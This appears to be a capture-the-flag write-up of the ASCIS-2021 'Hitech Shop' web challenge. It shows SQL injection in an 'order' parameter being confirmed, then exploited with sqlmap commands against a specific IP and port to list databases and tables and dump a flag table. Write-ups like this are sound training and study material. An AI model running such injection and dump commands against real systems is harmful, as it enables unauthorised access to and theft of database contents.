 # ASCIS-2021 Warm-up - 100pts
* Category: Web 
* Name: Hitech Shop
* Level: None
* Description: None

## Solution
* Overview the challenge provided us a search box i think it `sql injection`
![Main function](./challenge.PNG) 
*  I try `double quote` and this is server response 
![Main function](./sqli.PNG)
* After that i save `request` from `BurpSuite` and scan it with sqlmap
![Main function](./request.PNG)
* Run this command in sqlmap `sqlmap -u http://125.235.240.166:20105/index?order=price --time-sec=200 --user-agent=* --dbs --level 5 `i found two databases, but i only attention `vannd` 
![Main function](./sqlmap0.PNG)
* Then i use command `sqlmap -u http://125.235.240.166:20105/index?order=price --tables -D vannd` for scan `vand` table 
* Finally i found a table contain flag =))))
![Main function](./sqlmap1.PNG)
* Later i scan `flag` table use this command `sqlmap -u http://125.235.240.166:20105/index?order=price --columns -D vannd -T flag --dump`
![Main function](./sqlmap2.PNG)
* FLAG `ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}`
